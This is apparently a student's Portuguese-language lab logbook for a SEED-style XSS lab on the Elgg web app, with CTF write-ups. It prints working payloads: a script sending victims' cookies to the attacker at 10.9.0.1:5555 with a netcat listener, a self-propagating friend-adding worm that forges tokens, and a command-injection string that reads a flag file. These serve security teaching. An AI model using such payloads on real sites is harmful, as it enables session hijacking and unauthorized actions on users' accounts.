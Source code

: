 # LOGBOOK 10

### Lab Environment Setup

Completamos todos os pontos presentes no guião deste lab, isto é, DNS Setup, Container Setup and Commands, Elgg Web Application.

### Preparation

Neste lab vamos precisar de contruir HTTP requests. Para conseguirmos perceber como é um HTTP request em Elgg aceitável, vamos necessitar de poder capturar e analizar HTTP requests. Podemos utilizar uma extensão do Firefox chamada "HTTP Header Live". 
Tivemos que nos ambientar a esta ferramenta, para posteriomente avançar no guião.

## Task 1

O objetivo desta tarefa é incorporar um programa JavaScript no perfil Elgg, de forma que quando outro utilizador visualizar o perfil, o programa JavaScript seja executado e uma janela de alerta seja exibida.

O código JavaScript `<script>alert("XSS");</script>` exibe a janela de alerta. Os resultados estão no finala desta secção.

Com o seguinte código exemplo conseguimos referir um ficheiro .js para executar o código nele contido. Isto é útil para quando temos um programa Javascript de maior dimensão, ao contrário do exemplo anterior.
```
<script type="text/javascript"
        src="http://www.example.com/myscripts.js">
</script>
```

![](https://i.imgur.com/obINJpV.png)

![](https://i.imgur.com/LQACwXx.png)



## Task 2

O objetivo desta tarefa é incorporar um programa JavaScript no perfil Elgg, de modo que, quando outro utilizador visualizar o perfil, os cookies do utilizador sejam exibidos na janela de alerta.

Podemos atingir este objetivo introduzindo no campo "description" o seguinte código Javascript:
```
<script>alert(document.cookie);</script>
```

![](https://i.imgur.com/NDacdlJ.png)

![](https://i.imgur.com/5WBiQOO.png)

## Task 3

Na tarefa anterior, o código JavaScript malicioso escrito pelo invasor pode imprimir os cookies do utilizador, mas apenas o utilizador pode ver os cookies, não o invasor. Nesta tarefa, pretendemos que o código JavaScript envie os cookies para o invasor.

Para conseguirmos fazer isto precisamos que o programa Javascript envie um HTTP request para o atacante, com as cookies anexados.
Podemos usar uma tag <img> com o atributo src a apontar para a máquina do atacante. O browser vai tentar carregar a imagem, mas em vez disso vai fazer um pedido GET à máquna do invasor.

O seguinte código JavaScript envia os cookies para a porta 5555 da máquina do invasor (com endereço IP 10.9.0.1), onde o invasor possui um servidor TCP pronto a ouvir na mesma porta.
```
<script>
document.write("<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >");
</script>
```

![](https://i.imgur.com/w87IOAZ.png)

Um programa bastante utilizado por invasores é o netcat (ou nc) , que, se executado com a opção "-l", torna-se um servidor TCP que escuta uma conexão na porta especificada. Este programa de servidor basicamente imprime tudo o que é enviado pelo cliente e envia para o cliente tudo o que é digitado pelo utilizador executando o servidor. Com o comando `$ nc -lknv 5555` conseguimos escutar na porta 5555.

A opção -l é usada para especificar que o nc deve escutar uma conexão de entrada em vez de iniciar uma conexão com um host remoto. A opção -nv é usada para que o nc forneça uma saída mais detalhada. A opção -k significa que quando uma conexão for concluída, deve ouvir outra.

Utilizamos o comando netcat que referimos em cima para ouvir todos os request feitos por utilizadores que visitaram o nosso perfil. Esses requests contêm os cookies do utilizador, como pode ser visto em baixo:

![](https://i.imgur.com/qWdb0cf.png)


## Task 4

Nesta e na próxima tarefa, pretendemos realizar um ataque semelhante ao que Samy Worm fez ao MySpace em 2005. O objetivo é escrever um worm XSS que adiciona Samy como amigo a qualquer outro utilizador que visite a página de Samy.

Podemos adicionar Samy como amigo normalmente e, com a extensão HTTP Header Live, podemos descobrir como um HTTP request de amigo é codificado.

![](https://i.imgur.com/6V7qjGW.png)

Utilizando esta informação, podemos criar um script que, ao ser executado, forja uma solicitação que adiciona Samy como amigo ao utilizador autenticado.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```

Colocamos este script no campo "About me" para ser executado por um utilizador quando este entrar no nosso perfil.

![](https://i.imgur.com/G0dju90.png)

![](https://i.imgur.com/28hoQiI.png)

Antes de visitar o perfil do Samy:

![](https://i.imgur.com/qoYQlQW.png)

Depois de visitar o perfil do Samy:

![](https://i.imgur.com/4VcqtK0.png)


#### Question 1 - Explain the purpose of Lines ➀ and ➁, why are they needed?

As linhas ➀ e ➁, marcadas no script da secção 4, servem para enviar o token elgg no request forjado para que o servidor avalie o request como um request válido do utilizador.

#### Question 2 - If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

Um ataque bem-sucedido não pode ser iniciado, pois o modo Editor filtra os caracteres especiais HTML e não podemos editar o conteúdo HTML interno do campo. Portanto, injetar qualquer script no campo "About me" não é possível, pois não podemos enviar a tag < script > no perfil.

## CTFs

### Desafio 1

Depois de analisar o formulário, apercebemo-nos que este é vulnerável a XSS. Portanto, para obter a flag, inserimos no formulário um script que faz com que o botão "Give the flag" que estava desativado seja acionado e, assim, o administrador responde ao pedido e a flag aparece.

![](https://i.imgur.com/D3z5syb.png)

![](https://i.imgur.com/woPZvSW.png)

![](https://i.imgur.com/iOP5gSy.png)

### Desafio 2

Ao analisar o servidor web, conseguimos identificar que o comando ping está a ser implementado pelo servidor.

``` ping [options] hostname or IP address ```

O ping é um utilitário linux que pode ser usado para verificar se uma rede está presente e se um host pode ser acessado.

Como podemos ver na imagem seguinte, o comando ping é executado no endereço IP inserido (127.0.0.1).

![](https://i.imgur.com/R3XKlos.png)

 Caso se insiram argumentos inválidos, o ping não é executado e o site não produz resposta.

![](https://i.imgur.com/btiUYtY.png)

Quando injetamos o código, este é o código que na realidade é executado:

``` ping 127.0.0.1; cat /flags/flag.txt ```

Ou seja, estão a ser executados dois comandos diferentes da shell. O segundo comando imprime a flag.

![](https://i.imgur.com/QZANr3J.png)

![](https://i.imgur.com/Ygwjiz0.png)

